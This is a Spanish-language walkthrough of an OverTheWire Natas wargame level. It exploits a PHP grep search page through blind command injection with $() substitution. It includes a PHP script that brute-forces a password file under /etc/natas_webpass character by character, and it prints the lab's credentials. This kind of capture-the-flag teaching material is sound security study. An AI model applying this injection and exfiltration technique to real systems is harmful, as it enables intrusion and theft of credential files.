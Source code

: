 Si inspeccionamos el HTML, vemos que es similar al del nivel 10. Al obtener el
código, notamos que ahora hay aún mas restricciones con respecto a la entrada
del usuario:

```php
if(preg_match('/[;|&`\'"]/',$key)) {
    print "Input contains an illegal character!";
} else {
    passthru("grep -i \"$key\" dictionary.txt");
}
```

Entre los simbolos permitidos, podemos encontrar `$()`. Esto nos permitira
ejecutar comandos arbitrarios dentro del `grep`. Lamentablemente, no obtendremos
el resultado de estos comandos, por lo que debemos obtener información de forma
indirecta.

```bash
$ grep -i $(grep a.* /etc/natas_webpass/natas17) dictionary.txt
```

El resultado de la expresión interna devolverá la contraseña solo si comienza
con "a". Luego la expresión completa no devolverá nada, ya que la contraseña no
pertenece al diccionario.

Podemos repetir esto de forma incremental para obtener información sobre la
contraseña.

Reutilizaremos el script del nivel anterior, pero cambiando los mensajes
enviados, y el método de envío y validación. La lógica del script en sí será la
misma.

```php
$authorization = "natas16:TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V";
$url = "http://natas16.natas.labs.overthewire.org/";
$verify = "<pre>\n</pre>";

function verify($inyection)
{
    global $authorization;
    global $url;
    global $verify;

    $params = array('needle' => $inyection, 'submit' => "Search");
    $handle = curl_init("$url?" . http_build_query($params));

    curl_setopt_array(
        $handle,
        array(
            CURLOPT_RETURNTRANSFER => 1,
            CURLOPT_HTTPAUTH => CURLAUTH_BASIC,
            CURLOPT_USERPWD => $authorization,
        )
    );

    $result = curl_exec($handle);

    curl_close($handle);

    return str_contains($result, $verify);
}

function contains_inyection($substring)
{
    return "$(grep $substring /etc/natas_webpass/natas17)";
}

function startwith_inyection($start)
{
    return "$(grep ^$start /etc/natas_webpass/natas17)";
}

function equals_inyection($password)
{
    return "$(grep ^$password$ /etc/natas_webpass/natas17)";
}

...
...
```

Al ejecutarlo, obtendremos la contraseña.

```
$ php crack-natas16.php
...
...
Final password: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
```
